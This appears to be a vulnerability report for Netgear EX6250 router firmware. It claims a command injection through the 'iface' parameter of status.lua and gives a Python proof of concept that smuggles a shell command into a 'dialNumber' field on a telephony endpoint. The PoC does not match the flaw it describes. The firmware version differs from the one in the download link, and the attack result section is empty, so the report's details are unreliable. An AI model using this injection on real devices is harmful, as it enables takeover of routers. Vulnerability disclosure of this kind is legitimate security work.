



Submittion Date: 2026.3.16  
Vendor: EX6250  
Firmware: V1.0.1.124  
Download Link: https://www.downloads.netgear.com/files/GDC/EX6250/EX7300v2_EX6400v2_EX6250v1-V1.0.0.124.zip

In /usr/lib/lua/luci/controller/admin/status.lua, the function ```action_bandwidth``` handles the important parameter string ```iface``` without checking it, which leads to a command injection vulnerability.




The potentially attacking vector is as follows:  
```py
import requests

TARGET_URL = "http://192.168.1.1/cgi-bin/luci/admin/telephony/trigger_call_dial_constant"
COOKIES = {"sysauth": "session_id"}

cmd = '10086"; touch /tmp/DIAL_VULN_PROVED; #'

data = {
    "Dial": "1",
    "dialNumber": cmd
}

try:
    response = requests.post(TARGET_URL, data=data, cookies=COOKIES, timeout=10)
    if response.status_code == 200:
        print("[+] Attack successfully")
    else:
        print(f"[-] Attack failed")
except Exception as e:
    print(f"[-] Error: {e}")
```

The attacking result is as follows:

